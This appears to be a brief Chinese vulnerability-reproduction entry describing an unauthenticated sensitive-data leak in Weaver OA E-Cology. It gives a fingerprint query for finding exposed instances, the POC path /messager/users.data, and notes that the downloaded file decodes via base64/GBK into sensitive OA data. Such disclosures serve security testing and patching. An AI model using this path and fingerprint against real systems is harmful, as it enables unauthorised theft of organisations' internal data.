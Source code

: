 # 泛微OA E-Cology users.data 敏感信息泄漏

## 漏洞描述

泛微OA E-Cology users.data 允许任意用户下载，获取OA中的敏感信息

## 漏洞影响

<a-checkbox checked>泛微OA E-Cology</a-checkbox></br>	

## 网络测绘

<a-checkbox checked>app="泛微-协同商务系统"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1636962061131-2d870e8d-e15c-4864-8d36-69bd1f57d746-20220313184604856.png)

验证POC

```php
/messager/users.data
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1646043440450-c69abe9a-4e26-4d92-b059-4e1e74139dc8.png)



base64 GBK解码即可获取OA中的敏感数据